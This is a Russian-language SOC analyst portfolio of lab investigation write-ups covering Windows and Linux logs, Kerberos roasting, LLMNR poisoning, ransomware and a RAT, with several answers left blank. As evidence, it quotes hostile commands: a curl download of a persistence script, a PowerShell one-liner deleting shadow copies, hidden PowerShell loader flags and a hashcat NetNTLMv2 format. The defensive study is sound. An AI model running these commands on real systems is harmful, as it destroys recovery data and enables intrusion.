# SOC Analyst Lab Portfolio

Портфолио практических расследований по SOC / Blue Team.

## Цель репозитория

Показать практические навыки расследования базовых инцидентов
- анализ сетевого трафика
- анализ phishing-писем
- анализ Windows Event Logs и Sysmon
- анализ типовых AD-атак
- анализ логов Linux
- работа с SIEM

## Лабораторные работы

### 

<details>
  <summary><strong>Logjammer</strong></summary>

### Сценарий
Тебе предоставили возможность работать младшим DFIR-консультантом в крупной консалтинговой компании. Однако для этого они дали тебе техническое задание, которое необходимо выполнить.
Консалтинговая компания Forela-Security хочет оценить твои знания в области анализа журналов событий Windows. Пожалуйста, проанализируй предоставленные материалы и дай ответы на поставленные ими вопросы.

### Задание 1
Когда пользователь cyberjunkie впервые успешно вошёл в свой компьютер? Укажите время в UTC.

Ответ:

Нужно найти успешный вход, значит буду смотреть события с ID 4624. Также стоит обратить внимание на поля `Logon  Type` и `Account Name`. 
Интересующий нас вход был выполнен в 03/27/2023 5:37:09. 
Для дальнейшего расследования также зафиксирую значения:
- Учетку, под которой был выполнен вход: `Account Name = CyberJunkie`
- Идентификатор сессии пользователя: `Logon ID = 0x25F28`
- Что у пользователя есть повышенные права: `Elevated Token = Yes`


### Задание 2
Пользователь изменил настройки брандмауэра в системе. Проанализируйте журналы событий брандмауэра и определите: какое имя правила брандмауэра было добавлено?

Ответ:

Ранее определил, что вход пользователя был 3/27/2023 5:37:09, значит нужно искать события после этого времени.
Так как в задании указано, что было именно добавление правила, то нужно вести поиск по событию 2004.

Взгляд зацепился за название правила `Metasploit C2 Bypass`. Так как Metasploit - это программа, предназначенная для поиска уязвимостей в сетях и ОС. Фиксирую, что правило было добавлено в 5:44:03. 


### Задание 3
Какое направление было у этого правила брандмауэра?

Ответ:

В описании события 2004 указано, что это правило для исходящего трафика (т.е. с устройства жертвы в внешнюю сеть).

### Задание 4
Пользователь изменил политику аудита компьютера. Какая подкатегория этой изменённой политики?

Ответ:

Изменения политик безопасности логируется в журнале Security, событие 4719. Политика аудита была изменена в 5:50:03.


### Задание 5
Пользователь cyberjunkie создал запланированную задачу. Какое имя у этой задачи?

Ответ: 

Создание запланированных задач также находится в журнале Security, событие 4698. Подходящее событие будет в рамках пользовательской сессии с id `0x25F28`:


### Задание 6
Какой полный путь к файлу был указан для запуска в этой запланированной задаче?

Ответ:

В событии 4698 есть XML-схема с описанием запланированного события, а внутри тега `Exec` указано название команды и путь до файла `C:\Users\CyberJunkie\Desktop\Automation-HTB.ps1`. 
Разрешение файла `.ps1` дает понять, что это PowerShell скрипт.


### Задание 7
Какие аргументы команды были указаны?

Ответ: 

Аргументы команды указаны в теге `Arguments`: `-A cyberjunkie@hackthebox.eu`.

### Задание 8
Антивирус, запущенный в системе, обнаружил угрозу и выполнил действия над ней. Какой инструмент был определён антивирусом как вредоносный?

Ответ:

В задании предоставлены логи от Windows Defender. В логах есть два Warning события 1116, в них Defender сообщает, что был обнаружен инструмент `SharpHound`.
SharpHound - это инструмент для сбора информации об объектах в Active Directory.


### Задание 9
Какой полный путь к вредоносному файлу вызвал срабатывание антивируса?

Ответ:

Поле `Path` с указанием конкретного пути до файла: `file:C:\Users\CyberJunkie\Downloads\SharpHound-v1.1.0.zip`.

### Задание 10
Какое действие выполнил антивирус?

Ответ:

Далее в логах Defender указано событие 1117, в котором антивирус поместил файл в карантин: `Action Name: Quarantine`.


### Задание 11
Пользователь использовал PowerShell для выполнения команд. Какую команду выполнил пользователь?

Ответ:

Также в задании предоставили логи PowerShell-Operational. Внутри них есть событие 4104, в котором была проверка хэша MD5 для файла `Automation-HTB.ps1`.


### Задание 12
Мы подозреваем, что пользователь удалил некоторые журналы событий. Какой файл журнала событий был очищен?

Ответ:

В журнале System имеется событие 104 (Log Clear). В нем указано, что был очищен файл с логами Firewall.


Congrats:


</details>

### 

<details>
  <summary><strong>Brutus</strong></summary>

  #### Сценарий
В этом задании ты познакомишься с логами Unix `auth.log` и `wtmp`. Мы разберём сценарий, в котором сервер Confluence был атакован методом brute force через SSH-сервис. После получения доступа к серверу злоумышленник выполнил дополнительные действия, которые можно отследить с помощью `auth.log`.
Хотя `auth.log` в первую очередь используется для анализа brute force-атак, в этом расследовании мы рассмотрим весь потенциал этого артефакта, включая признаки повышения привилегий, закрепления в системе и даже частичную видимость выполнения команд.

### Задание 1
Проанализируйте `auth.log`. Какой IP-адрес использовал злоумышленник для проведения brute force-атаки?

Ответ:

Посмотрим неудачные попытки входа:


Все неудачные попытки входа выполнялись с IP `65.2.161.68` к пользователям `admin`, `backup`, `server_adm`, `svc_account`, `root`, начало подбора пароля было в `6:31:33`.
### Задание 2
Попытки brute force оказались успешными, и злоумышленник получил доступ к учетной записи на сервере. Какое имя пользователя было у этой учетной записи?

Ответ: 

Посмотрим теперь на успешные входы:


Успешный вход был замечен к пользователю `root` в `6:31:40`.
### Задание 3
Определите UTC-время, когда злоумышленник вручную вошёл на сервер и установил сессию для выполнения своих целей. Время входа будет отличаться от времени аутентификации, и его можно найти в артефакте `wtmp`.

Ответ:

После того, как спарсили логи wtmp с помощью предоставленной в задании программы, отфильтруем строки по ip `65.2.161.68`, чтобы понять, когда была создана сессия:


Сессия была создана `2024-03-06 06:32:45`.
### Задание 4
SSH-сессии отслеживаются и получают номер сессии при входе. Какой номер сессии был назначен сессии злоумышленника для учетной записи из вопроса 2?

Ответ: 

Номер подходящей по времени сессии - `37`.

### Задание 5
Злоумышленник добавил нового пользователя в рамках стратегии закрепления на сервере и выдал этой учетной записи повышенные привилегии. Как называется эта учетная запись?

Ответ:

Посмотрим команды, которые похожи на `useradd`,`adduser`. В логах видно, что был создан новый пользователь под именем `cyberjunkie`:

### Задание 6
Какой ID под-техники MITRE ATT&CK соответствует закреплению через создание новой учетной записи?

Ответ:

Техника `Persistence`, техника `Create Account` и подтехника `Local Account`. То есть `T1136.001`.
### Задание 7
В какое время, согласно `auth.log`, завершилась первая SSH-сессия злоумышленника?

Ответ:
Отфильтруем события по назначенному PID-процессу SSH-сессии:


Видно, что злоумышленник вышел из учетной записи в `6:37:24`.

### Задание 8
Злоумышленник вошёл в свою backdoor-учетную запись и использовал повышенные привилегии, чтобы скачать скрипт. Какая полная команда была выполнена через `sudo`?

Ответ:

Отфильтруем логи по имени созданной злоумышленником учетки `cyberjunkie`:


В логах отображется команда `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.

Congrats!


</details>

### 

<details>
  <summary><strong>Campfire 1</strong></summary>

#### Сценарий
Алонзо заметил странные файлы на своём компьютере и сообщил об этом недавно сформированной команде SOC. После оценки ситуации предполагается, что в сети могла произойти атака **Kerberoasting**. Ваша задача — подтвердить эти выводы, проанализировав предоставленные доказательства.

Вам предоставлены:
1. **Журналы Security** с контроллера домена
2. **Журналы PowerShell-Operational** с заражённой/затронутой рабочей станции
3. **Prefetch-файлы** с заражённой/затронутой рабочей станции

#### Задание 1
Анализируя журналы безопасности контроллера домена, можете ли вы подтвердить дату и время по UTC, когда произошла атака Kerberoasting?

Ответ:

Анализируя журналы безопасности DC, вижу большое количество событий  EventId=4769 и EventId=4771. 

Когда возникает событие **4769**? Это событие запроса сервисного билета Kerberos. Когда пользователь уже получил TGT и хочет обратиться к какому-то сервису, он запрашивает у контроллера домена **TGS**, то есть сервисный билет.
В нем нас интересуют сервисные учетные записи + тип шифрования.

| Тип шифрования тикета | Значение     | Комментарий по типу шифрования               |
| ---------------------- | ------------ | -------------------------------------------- |
| `0x11`                 | AES128       | Более современный вариант                    |
| `0x12`                 | AES256       | Более современный и предпочтительный вариант |
| `0x17`                 | RC4-HMAC     | Старый и более рискованный вариант           |
| `0x18`                 | RC4-HMAC-EXP | Ещё более старый/слабый вариант              |

Когда возникает событие **4771**? Событие появляется на DC, когда учетка пытается получить TGT от KDC, но предварительная проверка Kerberos не прошла.

В итоге находим событие, которое больше всего нам подходит.



#### Задание 2
Какое имя службы было целью атаки?

Ответ: 

В событии 4769 смотрим на блок "Сведения о службе", в нем указано имя службы `MSSQLService`.

#### Задание 3
Очень важно определить рабочую станцию, с которой произошла эта активность. Какой IP-адрес рабочей станции?

Ответ:

В раздел "Подробности" из события 4769 будет поле IpAddress с значением.

#### Задание 4
Теперь, когда мы определили рабочую станцию, вам предоставлены материалы для первичного анализа, включая логи PowerShell и Prefetch-файлы, чтобы глубже понять, как эта активность произошла на конечном устройстве.

Как называется файл, который использовался для перечисления объектов Active Directory и, возможно, поиска учётных записей, уязвимых к Kerberoasting, в сети?

Ответ:

В логах PowerShell видим следующее: Сначала был запуск самой консоли PowerShell, далее - в событии EventId=4100 была неудачная попытка запуска скрипта. 



Что делает злоумышленник дальше?
С помощью команды `powershell -ep bypass` он разрешает запуск любых скриптов PS. 


Далее - перезапуск консоли и выполнение PS-кода, состоящего из 20 частей.

Название скрипта находится в ScriptBlockText


#### Задание 5
Указано в событии 4104 `Создание текста Scriptblock (1 из 20)`

#### Задание 6
Какой полный путь к инструменту, который использовался для выполнения самой атаки Kerberoasting?

Ответ:

Разберем файлы, которые помогают системе быстрее запускать программы (prefetch), с помощью инструмента **PECmd** от Eric Zimmerman. Для этого используем команду команду:
```
PECmd.exe -d "..\campfire-1\Triage\Workstation\2024-05-21T033012_triage_asset\C\Windows\prefetch" --csv . --csvf result.csv
```

Далее открываем полученный файл в программе **Timeline Explorer**.

В Timeline Explorer проверяем исполняемые файлы, которые запускались примерно в тот временной промежуток, который мы определили ранее. 



#### Задание 7
Когда был запущен инструмент для дампа учётных данных? Укажите время в **UTC**.

Ответ: Находится на скриншоте выше.



</details>

<details>
  <summary><strong>Campfire 2</strong></summary>

  # Campfire-2

### Сценарий
Сеть Forela постоянно подвергается атакам. Система безопасности подняла тревогу из-за того, что старая административная учётная запись запросила билет у KDC (Key Distribution Center) на контроллере домена. Инвентаризация показывает, что эта учётная запись сейчас не используется, поэтому вам поручено разобраться в ситуации. Это может быть атака типа *AS-REP Roasting*, так как любой пользователь может запросить билет для учётной записи, у которой отключена предварительная аутентификация (preauthentication).
 
### Задание 1
Когда произошла атака AS-REP Roasting, и когда злоумышленник запросил Kerberos-билет для уязвимого пользователя?

Ответ:

Нужно просмотреть события с EventId=4768. Особое внимание также стоит уделить типу шифрования, конкретно интересует `0x17`/`0x18`.

А вот и нужное событие:


### Задание 2
Пожалуйста, подтвердите, какая учётная запись пользователя была целью злоумышленника.

Ответ:

Учетка также указана на скрине выше.

### Задание 3
Какой SID был у этой учётной записи?

Ответ:

SID также указан на скрине.

### Задание 4
Крайне важно определить скомпрометированную учётную запись пользователя и рабочую станцию, ответственную за эту атаку. Пожалуйста, укажите внутренний IP-адрес скомпрометированного хоста, чтобы помочь нашей TI-команде.

Ответ:

Ответ находится в группе "Сведения о сети", поле "Адрес клиента". 

### Задание 5
У нас пока нет никаких артефактов с исходной машины. Используя те же логи контроллера домена, можете подтвердить, какая учётная запись пользователя использовалась для выполнения атаки AS-REP Roasting, чтобы мы могли изолировать скомпрометированную учётную запись или учётные записи?

Ответ:

Буквально следующее событие сигнализирует нам об учетной записи атакующего (в частности из-за того, что эта учетка используется на скомпроментированной тачке).





</details>

<details>
  <summary><strong>Noxious</strong></summary>

  #### Сценарий
IDS-система предупредила нас о возможном несанкционированном устройстве во внутренней сети Active Directory. IDS также указала на признаки LLMNR-трафика, что является необычным. Предполагается, что произошла атака LLMNR poisoning.

LLMNR-трафик был направлен на Forela-WKstn002, у которого IP-адрес 172.17.79.136. Вам, как нашему эксперту по сетевой форензике, предоставлен ограниченный сетевой дамп пакетов за период, близкий ко времени инцидента.

Поскольку это произошло в VLAN Active Directory, рекомендуется провести сетевой TI с учётом вектора атаки на Active Directory, уделяя особое внимание LLMNR poisoning.

### Задание 1
Команда безопасности подозревает, что во внутренней сети Forela находилось несанкционированное устройство, на котором был запущен инструмент Responder для проведения атаки LLMNR Poisoning.
Пожалуйста, найдите IP-адрес этой машины.

Ответ:

Окей, так как нас заранее предупредили, что это точно атака LLMNR Poisoning, значит нужно сначала найти DNS запросы, которые сервер не смог разрешить, и сразу за этими запросами искать LLMNR-трафик.

А вот как раз и запросы, которые DNS не смог разрешить:


Мультикаст DNS:


Переход к запросу на разрешение в LLMNR:


А вот и ответ с хоста: 



### Задание 2
Какое имя хоста у несанкционированного устройства?

Ответ:

Имя хоста мы можем определить по определенным полям в пакетах с протоколом DHCP, конкретно нас интересует поле `Host Name`:



### Задание 3
Теперь нам нужно подтвердить, смог ли атакующий захватить хэш пользователя и можно ли его взломать.
Какое имя пользователя у учётной записи, хэш которой был захвачен?

Ответ:

Если мы говорим про NTLM-аутентификацию, то она состоит из 3 шагов: `NEGOTIATE/CHALLENGE/AUTH`. 
Нас будет интересовать сообщение `AUTH`, так как именно в нем содержится имя пользователя, рабочей станции и прочие поля.

Посмотрим на NTLMSSP-сообщения:


### Задание 4
В NTLM-трафике видно, что учётные данные жертвы несколько раз передавались на машину атакующего.
Когда хэши были захвачены в первый раз?

Ответ:

Мы должны найти самое первое `NTLMSSP_AUTH` сообщение, далее `Frame -> UTC Arrival Time.

### Задание 5
Какую опечатку допустила жертва при переходе к файловому ресурсу, из-за чего её учётные данные были скомпрометированы?

Ответ: 

Думаю, что жертва пыталась обратиться к файловому ресурсу и ошиблась в имени сервера, отправив запрос к `DCC01`. 

### Задание 6
Чтобы получить реальные учётные данные пользователя-жертвы, нам нужно собрать вместе несколько значений из пакетов NTLM negotiation.
Какое значение имеет **NTLM server challenge**?

Ответ:

Так как NetNTLMv2-хэш это набор значений в результате NTLM-обмена, а не поле из одного пакета, придется смотреть на все отправленные пакеты при NTLM-обмене.

Правда, в задании нам облегчили поиск и попросили  указать значение только из сообщения `NTLMSSP_CHALLENGE`:



### Задание 7
Теперь, сделав аналогичное действие, найдите значение **NTProofStr**.

Ответ: 

Для поиска `NTProofStr` нужно перейти к сообщениям `NTLMSSP_AUTH`:


### Задание 8
Чтобы проверить сложность пароля, попробуйте восстановить пароль, используя информацию, найденную в сетевом дампе пакетов.
Это важный шаг, поскольку таким образом мы можем определить, смог ли атакующий взломать этот хэш и насколько быстро он мог это сделать.

Ответ:

Погуглив, какой формат нужно передать на вход hashcat, приходим к выводу, что он должен быть таким:
`username:domain:server_challenge:NTProofStr:blob`

Ранее мы уже нашли username, domain, server_challenge и NTProofStr, то есть остался только blob.

blob можно найти в пакете NTLMSSP_AUTH, в поле `NTLMv2 Response`, которое состоит из `NTProofStr + blob`. Т.е. все, что идет после значения NTProofStr является `blob`.

Собираем воедино и прогоняем через hashcat:



### Задание 9
Просто для получения дополнительного контекста по инциденту: к какому реальному файловому ресурсу пыталась перейти жертва?

Ответ:

Через фильтр в Wireshark: `smb2.cmd == 3`,он покажет SMB-команды `TREE_CONNECT`.



Congrats:


</details>

<details>
  <summary><strong>Reaper</strong></summary>

  #### Сценарий
Наша SIEM-система сгенерировала оповещение о подозрительном событии входа в систему, которое необходимо немедленно проверить. В деталях оповещения было указано, что IP-адрес и имя исходной рабочей станции не совпадают.

Вам предоставлены сетевой дамп и журналы событий за период, близкий ко времени инцидента. Сопоставьте предоставленные доказательства и подготовьте отчет для вашего SOC-менеджера.
## Разбор pcap-файла
Начну разбор с pcap файла. В самом начале файла вижу, что было подключение от нового устройства: на это указывают пакеты с протоколом DHCP.


Далее идет пакет с протоколом NetBIOS Name Service, в котором идет обновление регистрации NetBIOS имени в сети:


Окей, связываю IP 172.17.79.129 с именем рабочей станции FORELA-WKSTN001.

Далее вижу ARP-сканирование от IP 172.17.79.135:


Заинтересовала активность с этого IP-шника и решил проверить дополнительно, что он делает.

После ARP-сканирования, данный хост определил существующие устройства и решил узнать их имена через обратные DNS-запросы:


Далее видно соединение к серверу по IP-адресу 172.17.79.4 по открытому порту 445 (обычно это порт SMB сервиса):


Также было соединение к IP 172.17.79.129 также по порту 445.

Вижу обновление имени FORELA-WKSTN002 с IP 172.17.79.136:


Потом запрос на резолв к DNS-серверу и дальнейший ответ от DNS, что такого имени не существует:


Так как DNS не смог зарезолвить, то подключается mDNS, а потом и LLMNR, но важная деталь: ответил не настоящий сервер, а IP, который ранее проводил сканирование:


Потом 172.17.79.136 пытается подключиться к злоумышленнику по SMB, включается Kerberos-аутентификация, но она неуспешна, так как Key Distribution Center не знает такого имени сервиса:


И начинается NTLM-аутентификация:


В пакете с номером 1214 видно, что злоумышленник передает аутентификацию на сервер 172.17.79.129.

Далее видно 2 подключения: жертва пытается подключиться к ресурсу \\D\IPC$, отправляя свои данные злоумышленнику, а злоумышленник подключается к другой тачке: 


Далее злоумышленник пытается открыть удаленный диспетчер служб, но ему не хватает прав для управления службами (WERR_ACCESS_DENIED):


Потом идет отключение от 172.17.79.129 и начинается соединение между жертвой и 172.17.79.4:


Чтобы ответить на остальные вопросы лабораторной работы, дальше нужно просмотреть события из файла Security.evtx.

Для этого нужно детально рассмотреть событие с id 4624 из файла. Нас будут интересовать входы с учетной записи arthur.kyle.
Касательно полей:
- IpPort
- TargetLogonId
- WorkstationName
- IpAddress
- 


Чтобы ответить на вопрос: Какое имя сетевой шары было запрошено в рамках процесса аутентификации вредоносным инструментом, который использовал злоумышленник?

Нужно посмотреть событие 5140 (Получен доступ к объекту сетевой папки). Внутри него интересующее нас поле: ShareName

Congrats!


</details>

### 

<details>
  <summary><strong>Gold Southfield</strong></summary>

#### Сценарий
Вы — Threat Hunter, работающий в консалтинговой компании по кибербезопасности. Один из ваших клиентов недавно пострадал от атаки шифровальщика, которая привела к шифрованию нескольких рабочих станций сотрудников. Пострадавшие пользователи сообщили, что на их рабочем столе появилась записка с требованием выкупа, а также изменился фон рабочего стола.

Ваша задача — использовать SIEM Splunk, содержащий журналы событий Sysmon с одной из зашифрованных машин, чтобы извлечь как можно больше информации.

### Задание 1
Чтобы начать расследование, можете определить имя файла записки, которую оставил шифровальщик?

Ответ:

Сначала нужно понять, какие логи нам предоставили в задании.


У нас данные из одного хранилища - revil.

За загрузку файла отвечает событие Sysmon 11. Отфильтруем логи по этому Id и посмотрим, какие поля у нас есть.


Окей, по полям понятно, переведем в табличный вид для удобства просмотра и вытянем следующие поля:
- winlog.event_data.CreationUtcTime - когда событие возникло
- host.hostname - на каком хосте зафиксировано событие
- host.ip - ip-адрес хоста
- winlog.event_data.Image - какой процесс создал файл
- winlog.event_data.TargetFilename - какой файл был создан
- winlog.event_data.ProcessId - PID процесса, который создал файл
- winlog.event_data.User - от имени какого пользователя работал процесс


При просмотре событий был замечен подозрительный файл `5uizv5660t-readme.txt`, который был создан процессом `facebook assistant.exe` из папки `C:\Users\Administrator\Downloads\` в `2023-09-07 16:09:59:



### Задание 2
После определения записки с требованием выкупа следующий шаг — установить источник. Какой идентификатор процесса ransomware, вероятно связанного с атакой?

Ответ:

winlog.event_data.ProcessId = 5348
### Задание 3
После определения идентификатора процесса ransomware следующий логичный шаг — найти его источник. Где находится исполняемый файл шифровальщика?

Ответ:

Исполняемый файл находится по пути: `C:\Users\Administrator\Downloads\facebook assistant.exe`
### Задание 4
Теперь, когда вы определили расположение исполняемого файла ransomware, давайте копнём глубже. Для ransomware типичная тактика — нарушать работу механизмов восстановления системы. Можете определить команду, которая была использована для этой цели?

Ответ:

Так как мы уже определили ProcessId исполняемоего файла (5348), посмотрим связанные события с этим процессом: 


Видим следующие Sysmon события:
- 1 - запуск процесса
- 5 - завершение процесса
- 7 - загрузка DLL/модуля
- 11 - создание файла
- 13 - изменение значения в реестре

Посмотрим дополнительно события запуска процессов, связанные с файлом `facebook assistant.exe`:


Видим запуск PowerShell с закодированной командой (аргумент -e означает Encoded), кодировка Base64. 
Раскодируем команду с использованием утилиты CyberChef:


Команда `Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}` означает поиск всех теневых копий Windows и удаление каждой из них.

### Задание 5
По мере восстановления цепочки действий ransomware требуется более глубокая проверка. Можете предоставить SHA-256-хэш исполняемого файла шифровальщика, чтобы сверить его с известными вредоносными сигнатурами?

Ответ:

Ранее мы уже нашли исполняемый файл - `facebook assistant.exe`. Осталось посмотреть SHA-256 хэш внутри события с созданием процесса:


SHA-256: `B8D7FB4488C0556385498271AB9FFFDF0EB38BB2A330265D9852E3A6288092AA`

И сразу проверим его на VirusTotal:


### Задание 6
Остаётся ещё один важный элемент: определить канал связи злоумышленника. Можете использовать threat intelligence и известные индикаторы компрометации, чтобы установить onion-домен автора шифровальщика?

Ответ:

При поиске отчетов по хэшу файла нашел отчет с сайта ANY.RUN:


В DNS-запросах фигурирует onion-домен: `aplebzu47wgazapdqks6vrcv6zcnjppkbxbr6wketf56nf6aq2nmyoyd.onion`


</details>

<details>
  <summary><strong>Kerberoasted</strong></summary>

#### Сценарий
Как внимательный охотник за киберугрозами, вы начинаете расследование с гипотезы: «Последние тенденции указывают на рост числа атак Kerberoasting в отрасли. Может ли ваша организация быть потенциальной целью этой техники атаки?»

Эта гипотеза становится основой для комплексного расследования, которое начинается с углублённого анализа журналов контроллера домена с целью обнаружения и нейтрализации потенциальных угроз безопасности.

Примечание: ваш контроллер домена настроен на аудит операций с Kerberos Service Ticket, что необходимо для расследования атак Kerberoasting. Кроме того, для расширенного мониторинга установлен Sysmon.

### Задание 1
Чтобы эффективно снизить риск атак Kerberoasting, необходимо усилить шифрование, используемое протоколом Kerberos. Какой тип шифрования сейчас используется в сети?

Ответ:

Сначала нужно понять, какие источники событий подключены и отправляют логи:


Всего один источник.
Хорошо, по заданию нам нужно узнать тип шифрования в сети, значит нас будут интересовать события Windows Event Id = 4769 с запросами TGS билетов:


Тип шифрования указывается в поле `Ticket Encyption Type`.
Бегло просмотрев логи, можно понять, что у нас везде используется шифрование `0x17`, что соответствует RC4-HMAC (устаревший тип шифрования).
### Задание 2
Какое имя пользователя у учётной записи, которая последовательно запросила TGS билеты, для двух разных сервисов за короткий промежуток времени?

Ответ:

Для начала, нам нужно убрать из выборки события, в которых названия сервисов заканчиваются на `$`, так как это относится к техническим аккаунтам, которые используют службы Windows:


Есть 2 события от пользователя `johndoe`, считаю их подозрительными, так как разница по времени между ними составляет всего несколько миллисекунд:


Также стоит обратить внимание на событие запроса TGS к учетке `krbtgt`(она используется для шифрования и подписи билетов TGS) от той же учетки `johndoe`, которое уже произошло в `2023-10-16 08:17:33`:


Эти события связаны с учетной записью `johndoe`. Время запроса TGS к сервисам `SQLService` и `FileShareService`: `2023-10-16 07:37:34`. 
### Задание 3
Нам нужно глубже изучить журналы, чтобы выявить возможные скомпрометированные сервисные учётные записи и провести полноценное расследование потенциально успешной атаки Kerberoasting. Укажите имя скомпрометированной сервисной учётной записи.

Ответ:

Так как ранее мы выявили запрос TGS к сервисам `SQLService` и `FileShareService`, а также точное время запроса билетов - `2023-10-16 07:37:34`, то отфильтруем события, которые связаны с этими сервисами после запроса билетов:


Видно, что в `2023-10-16 07:50:29` был запрос TGS от SQLService и DC01$. 
Чтобы точно убедиться в компрометации, посмотрим на события 4624 (успешного входа) для этих сервисов:


Подключения были только к `SQLService`, причем смущает, что был сетевой вход с хоста `kali` с IP `10.0.0.154`. 
### Задание 4
Чтобы отследить начальную точку входа атакующего, нужно определить машину, которая была скомпрометирована первой. Какой IP-адрес у этой машины?

Ответ:

Так как ранее мы уже определили, что запрос TGS произошел от учетки `johndoe`, то посмотрим успешные входы, связанные с этой учеткой:


Успешный вход в учетку `johndoe` с использованием NTLM был выполнен в `2023-10-16 07:37:34`, IP-адрес скомпрометированной машины - `10.0.0.154`.
### Задание 5
Чтобы понять действия атакующего после входа с использованием скомпрометированной сервисной учётной записи, укажите: какой системный сервис был установлен на контроллере домена?

Ответ:

Установка системного сервиса логируется в событии с id 4697 или 7045, так что найдем такие события:


В поле ImagePath указана команда запуска powershell c обфусцированной командой.
Название сервиса: `iOOEDsXjWeGRAyGl`. 

### Задание 6
Чтобы понять масштаб намерений атакующего, укажите: полный путь к ключу реестра, в котором атакующий изменил значение для включения Remote Desktop Protocol?

Ответ:

Изменения значений реестра логируются событием Windows event id 4657 либо Sysmon 13. Также в задании указано, что изменение явно связано с RDP, это поможет сузить круг поиска:


Полный путь к ключу реестра: `HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections`.
### Задание 7
Чтобы составить полную временную линию атаки, укажите: UTC-временную метку первого зафиксированного события входа по Remote Desktop Protocol, RDP.

Ответ:

Ранее мы уже находили события входа по RDP к SQLService:


Значит точное время подключения по RDP: `2023-10-16 07:50`
### Задание 8
Чтобы раскрыть механизм закрепления, использованный атакующим, укажите: имя WMI Event Consumer, отвечающего за поддержание закрепления.

Ответ:

Есть ряд событий в Sysmon, которые отвечают за WMI - 19, 20, 21. Посмотрим информацию по этим событиям:
Sysmon 19.


В этом событии указано, что каждые 60 секунд идет проверка появления новых событий 4625 (неудачных входов) для учетки `johndoe`. Если такое событие появляется, то срабатывает фильтр WMI.

А дальше как раз идет создание потребителя в событии Sysmon 20:


Причем указано, что по триггеру будет запуск powershell в скрытом режиме с обфусцированной командой.

Имя WMI потребителя: `Updater`.
### Задание 9
На какой класс нацелен фильтр WMI Event Subscription в обнаруженном вами WMI-триггере на события?

Ответ:

В прошлом задании мы посмотрели событие Sysmon 19, в котором явно указан целевой объект, за которым следит фильтр, значит его класс будет: `Win32_NTLogEvent`.

</details>

### 


<details>
  <summary><strong>XLMRat</strong></summary>

  # XLMRat
### Сценарий
Скомпрометированная машина была помечена из-за подозрительного сетевого трафика. Твоя задача — проанализировать PCAP-файл, чтобы определить метод атаки, выявить вредоносные payload’ы и восстановить хронологию событий.
Сфокусируйся на том, как злоумышленник получил доступ, какие инструменты или техники использовались, а также как вредоносное ПО работало после компрометации.


### Задание 1
Злоумышленник успешно выполнил команду для загрузки первой стадии вредоносного ПО. С какого URL-адреса была установлена первая часть вредоносного ПО?

Ответ:

Сначала глянем, какие адреса участвовали в обмене данными:
`Statistics -> Endpoint`


Видно два адреса из одной сети и один из внешней.

Проверим адрес из внешней сети на VirusTotal:


Окей, приступаем к анализу.
Загрузка ресурсов с веба обычно происходит через метод `GET`. Отфильтруем такие пакеты с запросами:


Видим 2 пакета.
Нажимаем на первый пакет, `ПКМ -> Follow HTTP STREAM`


Внутри находится код, который состоит:
- Из массива строк, в элементах массива примечательно то, что есть элементы типа http и ip-адреса
	- 
- Цикл, который собирает команду для выполнения, склеивая строки
- Далее видим запуск cmd.exe с дальнейшим выполнением команды в powershell. 
	- 

Хочу также провести детальный разбор команды Powewrshell:
- -NOP - запуск PS без профиля пользователя (ускорение запуска?)
- -WIND HIDDen - предположу, что полное название `WindowStyle Hidden`, то есть пользователь не должен увидеть окно консоли
- -eXeC BYPASS - `-ExecutionPolicy Bypass`, т.е. обход политики запрета PS-скриптов
- -NONI - `-NonInteractive`, запуск PS в не интерактивном режиме, т.е. без ожидания ввода пользователя 
- И далее добавляется строка OodjR, в которой находится ссылка на вредоносный файл.

Рассмотрим 2-й пакет.
В нем можно заметить кучу hex-байтов и такой код.




Проанализируем детальнее, что делает код.
1) Сначала идет преобразование hex-строк в байты
2) Далее есть такая строка: \$Fu = [Reflection.Assembly]::Load($pe). После гугления стало понятно, что PowerShell загружает .NET-сборку из массива байтов прямо в оперативную память 
3) Далее видим формирование пути: `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe`. RegSvcs - нормальный системный файл Windows, который относится к Microsoft .NET Framework.
	- 
4) Далее идет сброс 3-х файлов:
	- [IO.File]::WriteAllText("C:\Users\Public\Conted.ps1", $Content)
	- [IO.File]::WriteAllText("C:\Users\Public\Conted.bat", $Content)
	- [IO.File]::WriteAllText("C:\Users\Public\Conted.vbs", $Content)
5)  И завершающим этапом создается задача в планировщике: обновление Microsoft Edge с промежутком в 2 минуты.
	- 

Красные флаги собраны, но т.к. в задании сказано именно про установку вредоноса, то нам тогда нужен 2-й пакет. Внутри него виден флаг для 1-го задания.

### Задание 2
Какому хостинг-провайдеру принадлежит связанный IP-адрес?

Ответ:
Выполним команду `whois` и посмотрим на вывод: 
В поле `descr` получим ответ.


### Задание 3
При анализе вредоносных скриптов были обнаружены два payload’а: загрузчик и вторичный исполняемый файл. Какой SHA256-хэш у исполняемого файла вредоносного ПО?

Ответ: 

Для выполнения задания нам понадобится CyberChef. Берем hex-строку и переводим в байты.



CyberChef сообщает нам о том, что найден PE-файл. Сохраняем результат как `filename.bin`
Далее через команду `sha256sum file_name` выполняем и получаем ответ.

### Задание 4
Как называется семейство вредоносного ПО согласно Alibaba?

Загружаем полученный хэш в VirusTotal и смотрим на соответствующую строку.

### Задание 5
Каково время создания вредоносного ПО?

Ответ:

Вкладка `Details` на VirusTotal.

### Задание 6
Какой LOLBin используется в этом скрипте для скрытного выполнения процесса? Укажите полный путь к нему.

Ответ:

Ответил еще в задании 1 при анализе скрипта.

### Задание 7
Этот скрипт предназначен для перетаскивания нескольких файлов. Перечислите имена файлов, перетащенных скриптом.

Ответ:

Ответил еще в задании 1 при анализе скрипта.



</details>

### 

<details>
  <summary><strong>Phishing Analysis</strong></summary>

  # Phishing Analysis
#### Сценарий
Пользователь получил фишинговое письмо и переслал его в SOC. Можешь исследовать письмо и вложение, чтобы собрать полезные артефакты?

Нам дан файл с расширением `.eml`. Это файл с сохраненным email-письмом в сыром виде.

### Задание 1
Кто является основным получателем этого письма?

Ответ: 

Если смотреть на сырой вид письма, то можно увидеть два, в целом, подходящих поля: `Delivered-To:` и `To:`.
- Поле `Delivered-To` - показывает, в какой почтовый ящик письмо реально отправилось
- Поле `To` - а это поле означает, кому письмо было адресовано отправителем.

По смыслу задания, естественно, подходит поле `To:`.

Окей, с этим разобрались. Но отображается несколько полей `To:`. Какое по итогу нужно?


Если вспомнить сценарий, а именно: `Пользователь получил фишинговое письмо и переслал его в SOC`. То становится понятно, что нужно поле из вложенного письма: .

### Задание 2
Какая тема у этого письма?

Ответ:

